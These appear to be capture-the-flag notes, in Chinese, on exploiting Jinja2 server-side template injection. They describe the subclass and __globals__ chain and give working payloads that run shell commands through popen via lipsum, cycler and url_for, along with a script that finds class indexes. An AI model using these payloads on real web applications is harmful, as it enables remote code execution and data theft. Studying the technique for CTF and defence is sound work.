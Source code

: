```py
1.随便找一个内置类对象用__class__拿到他所对应的类
2.用__bases__拿到基类（<class 'object'>）
3.用__subclasses__()拿到子类列表
4.在子类列表中直接寻找可以利用的类getshell
对象→类→基本类→子类→__init__方法→__globals__属性→__builtins__属性→eval函数
```

### 做题思路

- 测试是否存在ssti漏洞`{{3*3}}`

- 查找可以利用的函数`{{%27%27.__class__.__base__.__subclasses__()}}`
- 提供 os._wrap_close 中的 popen 函数`?name={{%27%27.__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('tac ../flag').read()}}`#这种方法的缺点在于需要找到 类 的索引

>132这个位置可以用过脚本来找
>
>```py
>f = open('test.txt', 'r')
>data = f.read()
>r = data.split("<TemplateReference None>")
>for i in range(len(r)):
>    if 'catch_warnings' in r[i]:
>        print(i, '~~~', r[i])
>f.close()
>```
>
>也可以直接用 lipsum 和 cycler 执行命令
>`?name={{lipsum.__globals__['os'].popen('tac ../flag').read()}}`
>`?name={{cycler.__init__.__globals__.os.popen('ls').read()}}`
>
>或者用控制块去直接执行命令
>`?name={% print(url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat ../flag').read()"))%}`

-

## jinjia

### 获取内置方法 以chr为例

```py
"".__class__.__base__.__subclasses__()[x].__init__.__globals__['__builtins__'].chr
get_flashed_messages.__globals__['__builtins__'].chr
url_for.__globals__['__builtins__'].chr
lipsum.__globals__['__builtins__'].chr
x.__init__.__globals__['__builtins__'].chr  (x为任意值)
```

**获取字符串**  
具体原理[可参考文章](https://blog.csdn.net/u011146423/article/details/88191225)

```py
request.args.x1   get传参
request.values.x1 get、post传参
request.cookies
request.form.x1   post传参(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  post传参(Content-Type:a/b)
request.jsonpost传json  (Content-Type: application/json)
```
